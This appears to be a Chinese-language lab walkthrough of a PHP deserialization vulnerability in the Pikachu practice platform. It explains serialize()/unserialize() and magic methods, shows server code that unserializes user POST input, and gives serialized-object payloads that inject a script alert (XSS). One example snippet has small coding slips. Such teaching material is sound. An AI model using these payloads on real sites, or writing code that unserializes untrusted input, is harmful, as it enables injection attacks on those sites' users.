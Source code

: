 
# 概述
在理解这个漏洞前,你需要先搞清楚php中serialize()，unserialize()这两个函数。

**serialize()** 函数用于序列化对象或数组，并返回一个字符串。函数序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。如果想要将已序列化的字符串变回 PHP 的值，可使用 unserialize()。

**unserialize()** 函数用于将通过 serialize() 函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

**序列化serialize()**<br />序列化说通俗点就是把一个对象变成可以传输的字符串,比如下面是一个对象:
```
    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象进行序列化
    序列化后得到的结果是这个样子的:O:1:"S":1:{s:4:"test";s:7:"pikachu";}
        O:代表object
        1:代表对象名字长度为一个字符
        S:对象的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
```

**反序列化unserialize()**<br />就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。
```
$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //得到的结果为pikachu
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题
```
常见的几个魔法函数:
__construct()当一个对象创建时被调用
__destruct()当一个对象销毁时被调用
__toString()当一个对象被当作一个字符串使用
 __sleep() 在对象在被序列化之前运行
__wakeup将在序列化之后立即被调用

漏洞举例:

class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
unser = unserialize($a);

payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```


# php反序列化漏洞

## 查看关键代码
```php
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

可以很直观的看到使用了反序列化函数unserialize()，我们只需要输入序列化语句即可。


## 实战
没什么好说的，直接输入
```
O:1:"S":1:{s:4:"test";s:30:"<script>alert('XMTX')</script>";}
```
![image-20210715150947808.png](_img/assets/1655881436365-b70b3bed-5f5a-4880-9937-5aeea55fd589.png)

